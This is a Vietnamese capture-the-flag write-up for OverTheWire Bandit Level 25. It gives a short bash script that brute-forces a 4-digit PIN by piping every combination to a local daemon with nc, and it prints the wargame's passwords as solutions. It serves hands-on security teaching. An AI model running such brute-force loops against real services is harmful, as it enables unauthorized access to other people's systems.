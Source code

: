 

# Bandit Level

## 🧩 Challenge: Level 25

## 📝 Description
Một daemon đang lắng nghe trên cổng 30002 và sẽ cung cấp cho bạn mật khẩu của bandit25 nếu bạn cung cấp mật khẩu của bandit24 và một mã pin bí mật gồm 4 chữ số. Không có cách nào để lấy lại mã pin ngoại trừ việc thử tất cả 10000 tổ hợp, được gọi là tấn công vét cạn.
Bạn không cần phải tạo kết nối mới mỗi lần.


> Link: https://overthewire.org/wargames/bandit/bandit25.html

---


## 🛠️ Cách giải

1. chuyển vào thư mục tạm `tmp` tạo file `basher.sh`

```
cd /tmp/
nano basher.sh
```

2. Viết code sau để tấn công brute-force

```
#!/bin/bash

pass="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

for pin in $(seq -w 0000 9999); do
    echo "$pass $pin"
done | nc localhost 30002
```

- Vì kết nối chỉ kéo dài khoảng vài giây mà với `10000` mã pin tốn thời **vài phút** nên mỗi lần quét ta tăng giá trị lên tầm `1000` đến khi có được password.



## 🏁 Password

```
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
